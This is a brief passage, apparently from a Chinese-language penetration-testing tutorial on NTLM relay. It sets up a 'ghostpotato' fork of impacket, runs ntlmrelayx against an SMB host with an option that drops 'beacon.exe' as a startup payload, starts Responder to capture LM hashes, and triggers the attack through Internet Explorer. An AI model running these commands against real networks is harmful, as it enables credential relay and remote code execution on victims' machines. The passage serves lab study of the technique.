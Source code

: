 

```bash
cd impacket-ghostpotato
pip uninstall impacket
pip install .
cd examples
python3 ntlmrelayx.py -t smb://192.168.91.2 -smb2support --gpotato-startup beacon.exe(内容)
```

![](img/NTLM/19.png)

```
responder -I eth0 --lm
```

使用 IE 浏览器进行访问

![](img/NTLM/20.png)
